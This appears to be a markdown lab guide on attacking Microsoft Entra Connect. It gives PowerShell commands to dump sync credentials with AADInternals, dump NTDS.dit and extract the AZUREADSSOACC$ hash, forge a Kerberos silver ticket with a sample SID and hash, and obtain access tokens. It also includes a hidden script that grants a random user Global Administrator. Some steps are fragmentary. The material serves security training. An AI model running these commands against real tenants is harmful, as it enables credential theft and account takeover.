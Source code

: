 ## lab 2 - Entra Connect Attacks
1. **prepare a victim user with high privileges**: in Entra portal (login with your admin tenant creds), select ***user10*** and assign it with the **Application Administrator** role
    <!-- ```powershell
    # add role randomly
    Import-Module AzureAD
    Connect-AzureAD # use admin tenant creds

    $users = Get-AzureADUser -All $true | Where-Object { $_.OnPremisesSecurityIdentifier -ne $null } | ForEach-Object { $user = $_; Get-AzureADDirectoryRole | ForEach-Object { Get-AzureADDirectoryRoleMember -ObjectId $_.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='Role';Expression={$_.DisplayName}} } } | Format-Table -Wrap -AutoSize
    
    $randomUser = $users | Get-Random
    
    $role = Get-AzureADDirectoryRole | Where-Object { $_.DisplayName -eq "Global Administrator" }
    
    # Assign the role to the random user
    Add-AzureADDirectoryRoleMember -ObjectId $role.ObjectId -RefObjectId $randomUser.ObjectId

    ``` -->
2. Dumping and Extracting Entra (Azure AD) Connect credentials:
    1. run powershell as admin on the server where Entra Connect is installed
    2. execute:
        ```powershell
        Import-Module AADInternals
        Get-AADIntSyncCredentials
        ```


3. reset password


## 3. Silver Ticket Attack ##
1. get Sync's SID:
    ```powershell
    # Dump NTDS.dit and registry:
    ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
    # Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.

    # use DSInternals
    Import-Module DSInternals

    # Get the Boot key
    $key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

    # Get the password hash of AZUREADSSOACC
    (Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
    # remote the empy spaces and keep the hash

    # Find victim user to impersonate
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds
    # list users with roles
    Get-AzureADUser -All $true | Where-Object { $_.OnPremisesSecurityIdentifier -ne $null } | ForEach-Object { $user = $_; Get-AzureADDirectoryRole | ForEach-Object { Get-AzureADDirectoryRoleMember -ObjectId $_.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='Role';Expression={$_.DisplayName}} } } | Format-Table -Wrap -AutoSize

    ```
    


    Obtain Sync_xx user’s SID  (by running mimikatz / other credentials dump tool or alternatively extract the plain text credentials on the server that is running Entra Connect, or alternatively using DCSync)​

    Generate a Kerberos ticket for the synced user that we wish to impersonate, using its SID + NTLM hash of the AZUREADSSOACC$ machine account:​
    $kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-722990657-2348522304-2045722228-1120" -Hash "6540a1298884fb7d186afdc9e29f1bb7"​

    Obtain an access token to a specific resource using that Kerberos ticket:​
    $at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain xspm-research.net



    # detect of SSO is enabled:
    ```powershell
    $body = @{
        "username" = "user10@mydomain.onmicrosoft.com"
    } | ConvertTo-Json

    $response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/common/GetCredentialType" -Method Post -Body $body -ContentType "application/json"
    $response
    ```